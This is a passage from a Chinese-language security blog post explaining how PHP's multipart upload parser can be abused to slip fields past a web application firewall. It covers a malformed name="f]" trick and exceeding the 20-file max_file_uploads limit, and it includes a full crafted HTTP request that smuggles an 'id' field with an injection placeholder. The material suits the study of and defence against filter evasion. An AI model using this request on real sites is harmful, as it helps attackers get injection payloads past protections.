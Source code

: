 其中的 param 就是 `name="f"`，当程序进入 `c < 0` 这个分支时，就会跳过当前 part 的上传流程。由于初始化时 `c = 0`，遇到 `[` 时，`c += 1`，遇到 `]` 时，`c -= 1`。因此，可以构造 `name="f]"`，即可让 `c = -1`。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203051601257.png-water_print](assets/1699408375-acbaad01566b5820efca058ecf9ff4db.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203051601257.png-water_print")

### [](#skip_upload---2)skip\_upload - 2

在 PHP [源码](https://github.com/php/php-src/blob/PHP-7.4.28/main/rfc1867.c#L943)中，有这样一段代码：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203051608783.png-water_print](assets/1699408375-9477b4160bd8ca3db669cf7014a9bd68.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203051608783.png-water_print")

当文件上传数量超出最大值后，会跳过当前 part 文件的处理。在 php 5.2.12 和以上的版本，有一个隐藏的文件上传限制是在 `php.ini` 里没有的，就是这个 `max_file_uploads` 的设定，该默认值是 20, 在 php 5.2.17 的版本中该值已不再隐藏。文 件上传限制最大默认设为 20，所以一次上传最大就是 20 个文档，所以超出 20 个就会报错。

|     |     |     |
| --- | --- | --- |
| ```bash<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>``` | ```http<br>POST /waf.php HTTP/1.1<br>Accept: */*<br>Host: localhost:8081<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Type: multipart/form-data; boundary=a<br>Content-Length: 2030<br><br>--a<br>Content-Disposition: form-data; name="1"; filename="pic.png"<br>Content-Type: image/png<br><br>1<br>--a<br>Content-Disposition: form-data; name="2"; filename="pic.png"<br>Content-Type: image/png<br><br>2<br>--a<br>Content-Disposition: form-data; name="3"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="4"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="5"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="6"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="7"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="8"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="9"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="10"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="11"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="12"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="13"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="14"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="15"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="16"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="17"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="18"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="19"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="id"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="id";<br><br>sql injection!!!!<br>--a--<br>``` |
